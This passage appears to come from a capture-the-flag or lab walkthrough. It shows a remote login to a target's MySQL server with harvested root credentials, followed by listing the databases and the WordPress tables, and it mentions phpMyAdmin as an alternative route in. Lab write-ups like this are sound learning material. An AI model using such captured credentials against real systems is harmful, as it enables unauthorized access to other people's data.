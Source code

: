 Now that we have credentials for the MySQL server, we can remotely access the MySQL databases. It's worth noting that if MySQL was bound only to `localhost` we could still perform the same steps via logging in to phpMyAdmin at `https://10.1.1.129:12380/phpmyadmin`.

`$ mysql -u root -pplbkac -h 10.1.1.129`
```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 26
Server version: 5.7.12-0ubuntu1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

`MySQL [(none)]> show databases;`
```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| loot               |
| mysql              |
| performance_schema |
| phpmyadmin         |
| proof              |
| sys                |
| wordpress          |
+--------------------+
```

`MySQL [(none)]> use wordpress;`
```
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

`MySQL [wordpress]> show tables;`
```
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
11 rows in set (0.000 sec)
```
